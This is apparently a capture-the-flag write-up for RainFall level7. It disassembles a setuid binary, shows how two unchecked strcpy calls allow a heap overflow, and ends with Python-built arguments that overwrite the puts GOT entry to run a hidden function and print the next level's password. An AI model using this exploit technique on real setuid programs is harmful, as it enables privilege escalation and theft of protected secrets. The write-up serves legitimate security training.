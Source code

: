 # level7 walkthrough
Given setuid binary, lets disassemble it:

    gdb ./level7
    disass main
    Dump of assembler code for function main:
    0x08048521 <+0>:	push   ebp
    0x08048522 <+1>:	mov    ebp,esp
    0x08048524 <+3>:	and    esp,0xfffffff0
    0x08048527 <+6>:	sub    esp,0x20
    0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
    0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
    0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
    0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
    0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
    0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
    0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
    0x08048550 <+47>:	mov    edx,eax
    0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]
    0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx
    0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
    0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
    0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax
    0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]
    0x0804856d <+76>:	mov    DWORD PTR [eax],0x2
    0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
    0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
    0x0804857f <+94>:	mov    edx,eax
    0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
    0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
    0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
    0x0804858b <+106>:	add    eax,0x4
    0x0804858e <+109>:	mov    eax,DWORD PTR [eax]
    0x08048590 <+111>:	mov    edx,eax
    0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]
    0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
    0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
    0x0804859d <+124>:	mov    DWORD PTR [esp],eax
    0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
    0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
    0x080485a8 <+135>:	add    eax,0x8
    0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
    0x080485ad <+140>:	mov    edx,eax
    0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
    0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
    0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
    0x080485ba <+153>:	mov    DWORD PTR [esp],eax
    0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
    0x080485c2 <+161>:	mov    edx,0x80486e9
    0x080485c7 <+166>:	mov    eax,0x80486eb
    0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
    0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
    0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
    0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
    0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
    0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
    0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
    0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
    0x080485f7 <+214>:	call   0x8048400 <puts@plt>
    0x080485fc <+219>:	mov    eax,0x0
    0x08048601 <+224>:	leave
    0x08048602 <+225>:	ret
    End of assembler dump.

At the beginning of these binary there are 4 buffers being allocated with malloc.
First and third buffers contain address for second and third buffers.
Next there are two unprotected strcpy calls which copy first command line argument into second buffer and second command line argument into forth buffer.
But addresses for those buffer are obtained from first and third buffers, if we manage to overwrite address from third buffer than we could overwrite any address in program using second strcpy.
In the second part of the program there is fgets call which reads level8 password and stores it in "c" global variable.
Fgets function is protected against gdb and it would segfault if we try to debug it (to read "c" variable directly).
If we search for unused functions we would find m function:

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    0x0804836c  _init
    0x080483b0  printf
    0x080483b0  printf@plt
    0x080483c0  fgets
    0x080483c0  fgets@plt
    0x080483d0  time
    0x080483d0  time@plt
    0x080483e0  strcpy
    0x080483e0  strcpy@plt
    0x080483f0  malloc
    0x080483f0  malloc@plt
    0x08048400  puts
    0x08048400  puts@plt
    0x08048410  __gmon_start__
    0x08048410  __gmon_start__@plt
    0x08048420  __libc_start_main
    0x08048420  __libc_start_main@plt
    0x08048430  fopen
    0x08048430  fopen@plt
    0x08048440  _start
    0x08048470  __do_global_dtors_aux
    0x080484d0  frame_dummy
    0x080484f4  m
    0x08048521  main

Lets disassemble it:

    (gdb) disass m
    Dump of assembler code for function m:
    0x080484f4 <+0>:	push   ebp
    0x080484f5 <+1>:	mov    ebp,esp
    0x080484f7 <+3>:	sub    esp,0x18
    0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
    0x08048501 <+13>:	call   0x80483d0 <time@plt>
    0x08048506 <+18>:	mov    edx,0x80486e0
    0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
    0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
    0x08048517 <+35>:	mov    DWORD PTR [esp],edx
    0x0804851a <+38>:	call   0x80483b0 <printf@plt>
    0x0804851f <+43>:	leave
    0x08048520 <+44>:	ret
    End of assembler dump.

It prints "c" variable via printf. We can use this function to obtain token for the next level.
Finally there is puts function call which address we could overwrite via GOT table to call unused function.
Lets find puts function GOT address:

    level7@RainFall:~$ objdump -R ./level7

    ./level7:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE
    08049904 R_386_GLOB_DAT    __gmon_start__
    08049914 R_386_JUMP_SLOT   printf
    08049918 R_386_JUMP_SLOT   fgets
    0804991c R_386_JUMP_SLOT   time
    08049920 R_386_JUMP_SLOT   strcpy
    08049924 R_386_JUMP_SLOT   malloc
    08049928 R_386_JUMP_SLOT   puts
    0804992c R_386_JUMP_SLOT   __gmon_start__
    08049930 R_386_JUMP_SLOT   __libc_start_main
    08049934 R_386_JUMP_SLOT   fopen

Puts GOT address is 08049928. Next we need to find offset from the second buffer to the address of the forth buffer (contained inside third buffer):

    (gdb) b *main+47
    Breakpoint 12 at 0x8048550
    (gdb) b *main+68
    Breakpoint 13 at 0x8048565
    (gdb) b *main+132
    Breakpoint 14 at 0x80485a5
    (gdb) r aaaabbbb ccccdddd
    Starting program: /home/user/level7/level7 aaaabbbb ccccdddd

    Breakpoint 12, 0x08048550 in main ()
    (gdb) i r eax
    eax            0x804a018	134520856
    (gdb) c
    Continuing.

    Breakpoint 13, 0x08048565 in main ()
    (gdb) i r eax
    eax            0x804a028	134520872
    (gdb) c
    Continuing.

    Breakpoint 14, 0x080485a5 in main ()
    (gdb) x/10x 0x804a018
    0x804a018:	0x61616161	0x62626262	0x00000000	0x00000011
    0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
    0x804a038:	0x00000000	0x0000000

We need to prefix puts GOT address in little endian with 20 random bytes and pass it to the first argument and put m function address int the second argument:

    level7@RainFall:~$ python -c 'print("a"*20+"\x28\x99\x04\x08")' > /tmp/level7/argv1
    level7@RainFall:~$ python -c 'print("\xf4\x84\x04\x08")' > /tmp/level7/argv2
    level7@RainFall:~$ ./level7 $(cat /tmp/level7/argv1) $(cat /tmp/level7/argv2)
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    - 1637420175